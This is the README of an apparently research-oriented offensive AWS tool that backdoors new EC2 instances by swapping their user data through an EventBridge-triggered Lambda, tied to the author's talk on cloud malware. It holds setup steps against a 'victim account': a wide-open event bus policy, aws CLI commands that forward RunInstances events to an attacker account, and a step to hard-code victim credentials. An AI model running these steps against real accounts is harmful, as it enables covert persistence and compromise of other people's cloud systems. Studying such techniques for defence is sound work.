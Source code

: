 # UserDataSwap

User data swap is an example of an automated lambda function that runs that swaps out user data on RunInstance events. The original user data script is restored after ours is run.

This exists as an example of how an attacker could semi-covertly backdoor EC2 instances on creation. The API calls will stand out, but from the user's perspective the instance is simply taking longer to start up. This is a well known attack, only change to what I've seen elsewhere is adding Event Bridge and Lambda.

Currently there is a five minute delay between when the new instance comes up and when it is backdoored, this is to work around issues with bootstrapping at the moment. Hope to find another way to do this in the future, but we'll see.

## Wish List
* Play nicely with bootstrapping (User Data or the Terraform SSH provider) without adding a delay.
* Target individual instances or tags
* Configurable options for logging, commands run at boot, etc.

## Cross-Account Access

There is a fair amount of permissions required to deploy this, which is ok if you just want to test it out. To be useful it may make more sense to deploy in a seperate account then the one you're targeting, this way the initial set up only requires `events:PutRule` and `events:PutTargets` permissions. I'll likely add support for this in the future, for now you can try the following to do this manually.

* In the UsereDataSwap account:
  * In the UserDataSwap lambda account create a new event bus named `run-instance-trigger` and give it the following resource policy.
  WARNING: This will allow any AWS account to run any action against this event bus.
  TODO: Figure out the exact permissions needed for this.
    ```
    {
      "Version": "2012-10-17",
      "Statement": [{
        "Sid": "allow_account_to_put_events",
        "Effect": "Allow",
        "Principal": "*",
        "Action": "*",
        "Resource": "<this event bus arn>"
      }]
    }
    ```
  * Set up a rule to trigger the UserDataSwap function with the following event config.
    ```
    {
      "source": [
        "aws.ec2"
      ],
      "detail": {
        "eventSource": [
          "ec2.amazonaws.com"
        ],
        "eventName": [
          "RunInstances"
        ]
      }
    }
    ```
* In the victim account:
  * Create the run-instances event trigger:
    ```
    aws --profile victim-account events put-rule --name run-instance-trigger --state ENABLED --event-bus-name default --event-pattern '{
      "source": ["aws.ec2"],
      "detail": {      
        "eventSource": ["ec2.amazonaws.com"],
        "eventName": ["RunInstances"]
      }
    }'
    ```
  * Add a target to forward to the event-bus in the UserDataSwap account:
    ```
    aws events put-targets --rule run-instance-trigger --event-bus-name default --targets "Id"="1","Arn"="arn:aws:events:<region>:<attacker account #>:event-bus/run-instance-trigger"
    ```
* You should see the UserDataSwap triggered when a instance is created in the victim account now.
  * Update the lambda to hard code the credentials needed to make EC2 related calls in the vicitims account and deploy.

## More Info

For more info you can see my post on [Backdooring user data](https://blog.ryanjarv.sh/2020/11/27/backdooring-user-data.html)

## Related Attacks

For another similar attack with different pros/cons take a look at [EC2FakeIMDS](https://github.com/RyanJarv/EC2FakeImds). The talk and slides going over these two can be found on [my blog](https://blog.ryanjarv.sh/2020/12/04/deja-vu-in-the-cloud.html).

## Takeaway

What I was hoping to demonstrate is what I described as Cloud Malware in my talk doesn't need to be complex.

## Requirements

* AWS CLI already configured with Administrator permission
* [Docker installed](https://www.docker.com/community-edition)
* [Golang](https://golang.org)
* SAM CLI - [Install the SAM CLI](https://docs.aws.amazon.com/serverless-application-model/latest/developerguide/serverless-sam-cli-install.html)

## Setup process

### Installing dependencies & building the target 

```shell
make build
```

## Deployment

```bash
make deploy
```

### Testing

TODO
